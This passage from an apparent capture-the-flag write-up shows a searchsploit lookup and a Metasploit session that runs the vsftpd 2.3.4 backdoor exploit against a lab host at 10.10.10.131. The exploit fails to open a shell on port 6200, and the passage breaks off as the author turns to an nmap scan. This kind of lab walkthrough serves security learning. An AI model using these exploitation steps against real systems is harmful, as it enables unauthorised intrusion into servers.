 ```
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                                                                                                                    | exploits/unix/remote/17491.rb
-------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
<br> Command Execution and there is a `metasploit` module for it, but the exploit didn't work :
```
msf5 > search vsftpd 2.3.4

Matching Modules
================

   #  Name                                                      Disclosure Date  Rank       Check  Description
   -  ----                                                      ---------------  ----       -----  -----------
   1  auxiliary/gather/teamtalk_creds                                            normal     No     TeamTalk Gather Credentials
   2  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
   3  exploit/multi/http/struts2_namespace_ognl                 2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   4  exploit/unix/ftp/vsftpd_234_backdoor                      2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution


msf5 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options 

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target address range or CIDR identifier
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 10.10.10.131
rhosts => 10.10.10.131
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > exploit 

[*] 10.10.10.131:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.10.10.131:21 - USER: 331 Please specify the password.
[+] 10.10.10.131:21 - Backdoor service has been spawned, handling...
[-] 10.10.10.131:21 - The service on port 6200 does not appear to be a shell
[*] Exploit completed, but no session was created.
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > 
```
<br> Apparently there was another service running on port 6200, a quick `nmap` scan shows that the port is open :